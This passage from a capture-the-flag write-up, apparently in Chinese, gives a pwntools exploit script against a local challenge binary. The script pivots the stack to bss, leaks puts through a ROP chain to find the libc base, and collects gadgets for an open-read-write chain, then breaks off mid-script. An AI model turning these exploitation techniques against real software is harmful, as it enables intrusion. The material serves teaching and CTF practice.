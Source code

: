 再获取 flag 文件名`flag284876`​​后，我们在构造 orw 读取 flag

###### exp：

```plain
from pwn import *

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

r=process('./pwn')
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')


li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
   gdb.attach(proc.pidof(r)[0])
   pause()

bss = 0x404200
bss5 = 0x404500-0x200
bss6 = 0x404600-0x200
bss7 = 0x404700-0x200
bss8 = 0x404800-0x200
bss9 = 0x404900-0x200

rdi=0x401283
rsi_r15=0x401281
ret=0x40101a

main=0x4011DB
read=0x4011FD

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

r.recv()
pay=b'a'*0x60+p64(bss)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss+0x60)+p64(read)
r.send(pay)

pay=p64(bss+0x70)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
r.send(pay)

leak=u64(r.recv(6)+b'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
pop_rdi = base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx = base + libc.search(asm('pop rdx;ret;')).__next__()
pop_rdx12 = base + libc.search(asm('pop rdx;pop r12;ret;')).__next__()
read_addr = base + libc.sym['read']
mprotect = base + libc.sym['mprotect']

r.recv()
pay=b'a'*0x60+p64(bss5)+p64(read)
r.send(pay)
```